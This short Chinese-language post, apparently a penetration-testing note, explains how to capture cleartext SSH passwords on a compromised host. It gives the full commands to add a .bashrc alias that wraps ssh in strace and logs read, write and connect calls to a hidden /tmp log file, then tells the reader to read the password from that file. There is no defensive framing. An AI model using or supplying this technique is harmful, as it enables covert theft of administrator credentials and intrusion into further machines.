


# SSH Keylogger记录密码

利用strace系统调试工具获取ssh的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的.bashrc里新建一条alias，这样可以抓取他登陆其他机器的ssh密码。

```
//在当前用户的shell环境中定义一个别名
vi ~/.bashrc
//在最后一行插入
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
//刷新当前的shell环境
source ~/.bashrc
```


> 设置完毕后，倘若当前系统不存在alias，那么就会影响其正常使用。

设置完毕后，使用SSH登录其他机器：


然后，查看**/tmp/.sshpwd-xxxxx**文件即可找到密码：[已脱敏]


